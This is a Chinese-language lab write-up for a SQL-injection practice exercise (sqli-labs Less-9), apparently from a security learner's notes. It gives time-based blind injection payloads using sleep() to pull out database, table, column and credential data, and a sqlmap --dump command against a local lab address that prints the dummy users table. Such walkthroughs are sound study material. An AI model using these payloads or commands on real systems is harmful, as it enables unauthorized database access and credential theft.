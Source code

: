 ```bash
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

`?id=1`显示You are in...........
`id=1'`也显示You are in...........
&#x20;尝试了N种闭合方式之后发现页面的**回显都是一样的**并且**没有任何报错信息**，
通过源码找到字符型闭合 ’
浅试一下**时间盲注**\ <a name="V17MH"></a>

# 时间盲注

<a name="kObnI"></a>

## 猜解数据库名称

> **if(1,sleep(5),0)**
> if()函数中，
>
> - x为布尔盲注中的长度、字符猜测语句，如：length(database())=1
> - sleep()函数，a为时间间隔，如果前面的语句x为真，则在页面出来前间隔a秒；
> - 0：占位

`?id=-1' or if(ascii(mid(database(),1,1))<=135,sleep(5),0)--+` 延时五秒了 <a name="kSZVm"></a>

## 猜解数据表名称

`?id=-1' or if(mid((select group_concat(table_name) from information_schema.tables where table_schema=database(),1,1)='e'),sleep(5),0)--+` <a name="j47RV"></a>

## 猜解字段名称

`?id=-1' or if(mid((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1)='e',sleep(5),0)--+` <a name="aRdmK"></a>

## 猜解字段内容

`?id=-1' or if(mid((select group_concat(username,0x7e,password) from users),1,1)='D',sleep(5),0)--+`



# sqlmap

```bash
┌──(root㉿guoyx)-[~]
└─# sqlmap -u 192.168.31.193/Less-9/?id=1 --batch -D "security" -T "users" --dump

Database: security
Table: users
[13 entries]
+----+------------+----------+
| id | password   | username |
+----+------------+----------+
| 1  | Dumb       | Dumb     |
| 2  | I-kill-you | Angelina |
| 3  | p@ssword   | Dummy    |
| 4  | crappy     | secure   |
| 5  | stupidity  | stupid   |
| 6  | genious    | superman |
| 7  | mob!le     | batman   |
| 8  | admin      | admin    |
| 9  | admin1     | admin1   |
| 10 | admin2     | admin2   |
```